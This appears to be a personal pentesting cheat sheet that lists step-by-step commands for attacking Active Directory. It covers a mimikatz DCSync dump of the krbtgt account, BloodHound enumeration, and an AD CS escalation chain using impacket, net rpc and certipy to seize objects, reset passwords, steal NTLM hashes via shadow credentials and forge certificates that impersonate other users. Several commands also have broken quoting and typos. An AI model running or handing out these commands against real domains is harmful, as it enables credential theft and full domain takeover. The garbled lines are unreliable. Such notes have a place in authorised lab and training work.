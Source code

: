 
### DCSync Attack (https://www.youtube.com/watch?v=qEEB1SjPPQ8&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn&index=9)

```shell
  # Tricks a DC thinking the attacker is another legit DC, replication data
  # Need to have compromised or an admin account or an account with permissions: Replication Directory Changes, Replicating Directory Changes All
  mimikatz.exe lsadump::dcsync /domain:<domain_name> /user:krbtgt

  # Enumeration with Blloodhound
  pip install bloodhound
  bloodhound-python -u <username> -p "<password>" -ns <domain_controller_ip> -d <domain_namme> -c All --zip
  bloodhound-python -u <administrator> -p "<password>" -ns <domain_controller_ip> -d <domain_namme> -c All --zip
  # then use the bloodhound gui of the app or
  ./bloodhound-cli containers start
```

---

### Certificate (https://www.youtube.com/watch?v=bV1IBxlTkFM)

```shell
# ensure all domains are in the /etc/hosts

https://github.com/ly4k/Certipy/wiki/06---Privilege-Escalation

impacket-owneredit -action write -target-dn 'DC=<dc_before_dot,DC=<dc_after_dot>' -new-owner '<name_of__username>' -target <username_of_the_ca_authority>' '<domain_name>'/'<username_also_new_owner>':'<password>'

impacket-dacledit -action write -rights 'FullControl' -principal '<name_of__username>' -target <username_of_the_ca_authority>' '<domain_name>'/'<username_also_new_owner>':'<password>'

net rpc password '<ca_username>' '<password>' -U '<domain_name>'/'<username_also_new_owner>':'<password>' -S <target_ip>

# try to get ntlm hashes via unshadowing
certipy-ad shadow auto -u <username> -p <password> -account <target_account>
certipy-ad shadow auto -u <username> -hashes ':<hash>' -account <target_account>

#check one until success, find  vulnerabilites
certipy-ad find -u <username>@<target_domain> -p '<password>' -dc-ip <target_ip> -vulnerable -stdout
certipy-ad find -u <username>@<target_domain> -p '<password>' -dc-ip <target_ip> -text -output certs

cat -n certs_Certipy.txt | grep -iC4 'enrollment rights1 | grep -viE "Enterprise Admins|Domain Admins|Domain Controllers" | fgrep -i '\'

# the template and stuff can be found in the output of the find command
certipy template -u <username>@<domain_name> -p '<password>' -dc-ip <target_ip> -template 'SecureFiles' -write-default-configuration

certipy req -u <username>@<domain_name> -p '<password>' -dc-ip <target_ip> -target '<domainN_of_ca_target>' -ca '<ca_name>' -template 'SecureFiles' -upn '<who_we_want_to_impeprsonate>@<domain_name>' -sid <sid>

certipy auth -pfx <file.pfx/administrator.pfx> -dc-ip <target_ip>

# then pass the ntlm hash or carck
```